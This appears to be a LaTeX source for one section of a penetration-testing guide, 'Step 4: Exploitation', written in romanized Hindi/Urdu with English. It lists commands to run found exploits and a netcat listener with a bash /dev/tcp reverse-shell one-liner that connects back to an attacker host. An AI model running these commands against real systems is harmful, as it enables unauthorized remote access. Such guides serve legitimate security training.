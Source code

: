 \documentclass[a4paper]{article}
\begin{document}
\section{Step 4: Exploitation}
\begin{enumerate}
  \item \textbf{Mil Gaye Exploits ko Run Karo:} \\
    \textbf{Python Exploits:} \\
    \begin{lstlisting}
    python3 exploit.py <target_ip>  
    \end{lstlisting}
    \textbf{Compile Karne Wale Exploits:} \\
    \begin{lstlisting}
    gcc exploit.c -o exploit  
    ./exploit  
    \end{lstlisting}
  \item \textbf{Reverse Shell Lena:} \\
    \textbf{Netcat Use Karo:} \\
    \begin{itemize}
      \item Attacker Machine: \\
        \begin{lstlisting}
        nc -lvnp 4444  
        \end{lstlisting}
      \item Target Machine: \\
        \begin{lstlisting}
        bash -c 'bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1'  
        \end{lstlisting}
    \end{itemize}
\end{enumerate}

\end{document}
